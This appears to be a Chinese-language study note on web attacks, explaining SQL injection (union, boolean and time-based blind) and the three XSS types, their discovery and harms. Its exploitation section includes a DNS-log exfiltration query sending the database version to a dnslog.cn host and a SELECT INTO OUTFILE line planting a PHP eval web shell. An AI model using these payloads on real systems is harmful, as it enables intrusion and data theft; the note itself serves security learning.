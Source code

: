 联合查询是由两个或两个以上的select语句组成，查询结果通过页面回显出来；盲注是当页面无法回显数据库数据时，通过盲注根据页面是否能正常返回页面或者页面的响应时间来判断。

盲注分为布尔盲注和时间盲注：

布尔盲注通过页面返回的内容来判断，当select语句查询为真时，页面内容正常，当select语句查询为假时，页面中有些信息不会显示出来。函数主要有left函数、substr函数、ascii函数。

时间盲注主要通过页面响应的时间来判断，当select语句查询为真时，页面会根据select语句等待几秒后才出现页面内容。主要的函数有sleep函数。

#### SQL注入利用

数据外带：（dnslog）

```
select CONCAT("\\\\",version(),"2.ccz549.dnslog.cn\\a.txt");
select LOAD_FILE(CONCAT("\\\\",version(),"2.ccz549.dnslog.cn\\a.txt"));
```

写shell：

```
 select "<?php eval($_POST['x'];?>" into outfile "D:/phpstudy/WWW/sqli/Less-1/shell.php";
```

## XSS跨站脚本攻击

本质：插入了 javascript代码 

分类：反射型、 存储型、dom型 

利用：弹窗、打 cookie、钓鱼、

#### **寻找xss漏洞**

寻找WEB应用上的输入与输出口。例如网站输入框、URL参数等等。

在可控参数中提交<script>alert(/xss/)</script>等攻击字符串，观察输出点是否对这些攻击字符串进行转义、过滤、消毒等处理。

如果原样输出，那么必然存在XSS漏洞。

#### **阐述xss有几种类型，各有什么区别?**

XSS有反射型XSS、存储型XSS和DOM型XSS三种类型。

反射型XSS在有文本框的情况下就可能出现，反射型XSS不经过数据库，通过网页直接解析java script代码。因为没有存储，所以只能解析一次。

存储型XSSPayload是有经过存储的，当一个页面存在存储型XSS的时候，XSS注入成功后，那么每次访问该页面都将触发XSS，如留言板

反射型或存储型是服务端将提交的内容反馈到了html源码内，导致触发xss。也就是说返回到html源码中可以看到触发xss的代码。

DOM型XSS主要通过java script操作document，实现dom树的重构，主要是通过查看网页的代码，用户可以在文本框或者url写入java script代码修改网页的dom，造成客户端payload在浏览器中执行，也只能执行一次，不存在存储功能。DOM型XSS只与客户端上的js交互，也就是说提交的恶意代码，被放到了js中执行，然后显示出来

#### **危害**：

•Cookie盗取

•钓鱼（伪造登录框，页面）

•获取IP段

•站点重定向

